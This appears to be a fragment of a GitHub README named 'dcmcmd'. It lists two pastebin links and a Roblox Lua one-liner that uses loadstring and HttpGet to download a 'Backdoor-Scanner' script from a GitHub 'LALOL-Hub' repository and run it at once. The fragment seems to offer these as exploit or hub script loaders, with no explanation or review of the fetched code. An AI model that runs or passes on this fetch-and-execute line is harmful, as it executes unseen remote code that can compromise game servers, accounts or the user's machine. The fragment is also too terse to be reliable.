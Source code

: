 # dcmcmd
stalkie https://pastebin.com/szpe6X47
https://pastebin.com/deKynmgN
lalol loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
